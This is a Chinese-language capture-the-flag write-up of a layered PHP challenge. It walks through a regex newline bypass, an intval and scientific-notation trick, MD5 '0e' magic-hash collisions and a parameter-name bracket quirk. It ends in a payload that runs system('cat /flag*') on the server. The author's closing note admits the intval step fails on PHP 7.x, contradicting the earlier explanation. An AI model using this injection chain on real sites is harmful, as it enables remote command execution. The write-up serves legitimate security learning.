



三层，一层比一层贴源码。

if (isset($_GET['zero'])
&& preg_match('/^ZeroG 2026!$/', $_GET['zero'])
&& $_GET['zero'] !== 'ZeroG 2026!') {
审计代码第一层：正则里的 ^ 意味着从第一个字符就要匹配，$ 意味着到这里就要终止，所以原字符串要是 ZeroG 2026!，但是后面又要 !==（严格不等）。
这里补充 PCRE 的 $：它除了匹配字符串末尾，还可以匹配"末尾换行之前"，所以在末尾加上 \n 也可以，这样就绕过了第一层。
if (intval($_GET['xp']) < 2026 && intval($_GET['xp'] + 4) > 2030) {
这里用到了 intval，就系统去补充了一下相关知识：
| 行为 |
例子 |
| 截断小数点 |
intval(0.9) = 0 |
| 只取前导数字 |
intval("123abc") = 123 |
| 反过来不行 |
intval("abc123") = 0（不是 123） |
带进制参数 intval($a, $b) |
$b = 0 时看前缀：0 开头按 8 进制、0x 开头按 16 进制，否则按 10 进制 |
接着看到这里：既要小于 2026，又要加 4 之后大于 2030。
最开始想的是用字符串改小进制，但这里不行。所以想到用 2025e9：
intval('2025e9') = 2025 ← 遇到 e 就直接停了
'2025e9' + 4 = 2.025e12 ← 2025×10⁹，算术运算先算完，才交给 intval
同一个字符串，被两套规则解释：intval() 只认前导整数，算术运算认科学计数法。
?zero=ZeroG%202026!%0A&xp=2025e9
if (isset($_POST['Welcome__ctf.2026']) && isset($_POST['mm'])) {
$a = $_POST['Welcome__ctf.2026'];
$b = $_POST['mm'];
if ($a !== $b && md5($a) == md5($b)) {
用 ==（弱等于）去模拟 !==（强不等）： 找一组 MD5 值都以 0e 开头的数据：
QNKCDZO → md5 = 0e830400451993494058024219903391
240610708 → md5 = 0e462097431906509019562562988736854
两个 0e... 在 == 下都被当成 0 × 10ⁿ = 0，所以相等；但原字符串不同，!== 也成立。
接着构造：
Welcome__ctf.2026=QNKCDZO&mm=240610708&code=system('cat /flag*');
当然没有这么简单 —— 因为 PHP 会把参数名里的 . 转换成 _，所以这个名字根本出不来。
我也卡在这里很久。
PHP 7.4 的源码逻辑：循环转换 . 和空格，但是遇到 [ 会直接把它替换成 \0（字符串截断符），然后跳出循环：

跳出循环之后，PHP 认为这是数组语法，会去寻找与之配对的 ] —— 但是找不到！
找不到之后，又会把刚刚的 \0 换回 _，恢复完整字符串：

所以只要把其中一个 _ 改成 [，就能让结果刚好等于原来的名字：
Welcome__ctf.2026 → 循环走完全程 → 点被转 → Welcome__ctf_2026 ✗
Welcome_[ctf.2026 → 在 [ 处 break → 点没被处理 → 恢复 [ 为 _ → Welcome__ctf.2026 ✓
一个字符同时做了两件事：截断循环（让点逃过转换）+ 恢复之后补回那个下划线。
最终 payload：
Welcome_[ctf.2026=QNKCDZO&mm=240610708&code=system('cat /flag*');
拿到 flag。
这里试了一下：cat flag* 抓不到，cat /flag* 才能抓到。
原因是当前工作目录。web 进程的 cwd 是网站目录（/var/www/html 之类），而 flag 文件在根目录 /：
cat flag* ← 相对路径，在网站目录里找 → 找不到
cat /flag* ← 绝对路径，从根目录找 → 命中
同一类问题在上一道题里是反过来的：那次 cat /index.php 失败、cat index.php 成功，因为文件就在 cwd 里。
所以路径没有好坏，只有对不对得上文件所在的位置。
intval('2025e9') 只在 PHP 5 上返回 2025。
PHP 5: intval('2025e9') = 2025 ← 遇到 e 就停
PHP 7.1: intval('2025e9') = 2025000000000 ← 也认科学计数法了
我在本地 PHP 7.4 上实测确认过：intval('2025e9') 返回 2025000000000，第一个条件就直接不成立。
所以这一关只在 PHP 5 的老环境上成立 —— 换个环境，同一个 payload 就废了。